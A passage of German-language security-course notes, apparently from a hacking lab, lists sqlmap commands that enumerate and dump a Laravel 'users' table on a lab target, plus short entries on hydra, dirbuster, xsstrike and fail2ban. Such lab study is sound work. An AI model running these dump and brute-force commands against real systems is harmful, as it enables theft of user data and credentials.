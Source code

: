 ![[CleanShot 2022-09-07 at 11.21.10.png]]

3. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel -T users --columns
```

![[CleanShot 2022-09-07 at 11.28.57.png]]

4. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel -T users -C emails --dump
```

![[CleanShot 2022-09-07 at 11.42.15.png]]

5. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel -T users --dump
```

![[CleanShot 2022-09-07 at 12.00.18.png]]

## [hydra](https://techyrick.com/hydra-full-tutorial/)
- Passwort Cracker
- Nativ in Kali installiert

## [fail2ban](https://webdock.io/en/docs/how-guides/security-guides/how-configure-fail2ban-common-services)
- Intrusion Prevention Tool
- Analyisiert Logfiles
- Blockiert IP bei definierter Anzahl Versuche in gewisser Zeitspanne

## [dirbuster](https://www.kali.org/tools/dirbuster/)
- Brute Force Directories von Websiten
- Standardmässig auf Kali installiert

### Syntax
- Starten
```
dirbuster
```

- Seite scannen (Wordlist unter: /usr/share/dirbuster/wordlists/)

![[CleanShot 2022-09-19 at 20.26.33.png]]

## [xsstrike](https://blog.intigriti.com/2021/06/29/hacker-tools-xsstrike-hunting-for-low-hanging-fruits/)
- Tool für automatisiertes Scannen nach XSS Vulnerabilities
